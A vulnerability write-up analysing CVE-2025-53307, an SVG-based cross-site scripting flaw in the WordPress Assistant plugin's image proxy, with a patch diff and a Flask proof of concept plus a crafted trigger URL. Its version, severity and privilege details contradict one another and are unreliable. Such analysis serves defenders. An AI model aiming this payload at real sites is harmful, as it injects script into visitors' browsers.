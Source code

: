 ```yaml
---
title: CVE-2025-53307 Analysis & POC
description: Security Vulnerability in WordPress Assistant Plugin.
date: 2025-10-03 19:19:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, xss]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

The vulnerability exists in the **Assistant** plugin for WordPress prior to version **3.6.2**. This could allow an attacker to inject malicious code (e.g., redirect scripts, ads, or other HTML payloads) into the website, which would execute when visitors open the page.

* **CVE ID**: [CVE-2025-53307](https://www.cve.org/CVERecord?id=CVE-2025-53307)
* **Product**: [WordPress Assistant Plugin](https://wordpress.org/plugins/assistant/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.5.2
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Assistant**: v1.5.2 (vulnerable) and v1.5.3 (patched)
* **Diff tool**: **meld** or any tool capable of comparing two versions

## Analysis

The application displays user-provided image content directly via a URL **without validating or fully checking the MIME type**. This allows an attacker to supply a file disguised as an image, which when processed by the browser, executes malicious code → resulting in an XSS vulnerability.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patch.

![Patch Diff](patch_diff.png "Diff between vulnerable and patched version")

In this case, there are significant differences between the two versions. For easier tracking, the [change log](https://wordpress.org/plugins/assistant/#developers) identifies where the XSS patch was applied:

```
Changelog
1.5.3 (2025-09-08)

- Changes to support the integration of Assistant in Beaver Builder version 2.10
- Fixed dark mode issues on the Home app and sidebar.
- Security: Fixed a potential XSS vulnerability in the "image proxy"
```

👉 The vulnerability is located in **backend/src/Hooks/ImageProxy.php**. Observing the differences between the two versions:

![Patch Diff 1](patch_diff1.png "Differences in the render_image function of ImageProxy.php")

The changes occur in the `render_image` function, which:

* Accepts a URL parameter from the query string `($_GET['url'])`.
* Sends a request from the server to that URL to fetch the content.
* Prevents **SSRF** using `wp_safe_remote_get`.
* If the content has a **Content-Type** header starting with `image/`, then:

  * Sends the same **Content-Type** header back to the client.
  * Echoes the file content to the browser.
* The browser displays the image **not directly from the original source but through the WordPress server**.

> SVG files also have a **Content-Type** starting with `image/` and can contain embedded JavaScript → XSS can occur.

The patch added an additional check to verify the **actual MIME type** of the file to prevent XSS via SVG or maliciously disguised files.

```php
$filesystem = self::filesystem();
$tmpfile    = tempnam( '/tmp', 'assistant' );
$filesystem->put_contents( $tmpfile, $body );
$validimage = wp_get_image_mime( $tmpfile );
$filesystem->delete( $tmpfile );

if ( ! $validimage ) {
    return false;
}
```

[`wp_get_image_mime()`](https://github.com/WordPress/wordpress-develop/blob/6.8.2/src/wp-includes/functions.php#L3330-L3417) uses internal image processing (based on the binary data of the file) to determine the actual MIME type.

If the result is not a valid image → returns **false**.

### How it works

In the `__construct` of the `ImageProxy` class, the `render_image()` method is called via the `'init'` action hook. The `'init'` hook runs early in WordPress loading, after core objects are initialized but before output is sent to the browser.

`render_image` is called only if the current user has permission to edit other users' posts and the `$_GET['fl_asst_image_proxy']` parameter exists.

👉 Accessing `/wp-admin/?fl_asst_image_proxy=value1&url=http://yoursite/image-path` triggers `render_image` and returns the image content to the browser.

## Exploit

### Detect XSS

Create a simple [web page](https://github.com/w41bu1/w41test) returning an SVG containing an XSS payload:

```py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/')
def home():
    return 'Hello, World!'

@app.route('/svg')
def about():
    svg = """<?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg">
        <script>alert(document.domain)</script>
    </svg>"""
    return Response(svg, mimetype="image/svg+xml")
```

Send a request with the **url parameter** pointing to `https://yoursite/svg`:

```
http://localhost/wp-admin/?fl_asst_image_proxy=abc&url=https://yoursite/svg
```

👉 Successful for `Unauthenticated` because as long as the user has permission, accessing the URL triggers XSS in the victim’s browser. The attacker does not need to log in.

![Detect](detect.png "SVG with XSS payload displayed via image proxy")

## Conclusion

The **CVE-2025-53307** vulnerability in the WordPress Assistant plugin (**<= v1.5.2**) allows XSS via `render_image()` because it does not validate the actual file **MIME type**. Version **v1.5.3** patched this by verifying the file content before returning it to the browser.

**Key takeaways**:

* Do not trust the **Content-Type header** from **HTTP responses**.
* Always validate the **actual MIME type** of the file.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Assistant Plugin <= 1.5.2 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/assistant/vulnerability/wordpress-assistant-plugin-1-5-2-cross-site-scripting-xss-vulnerability)
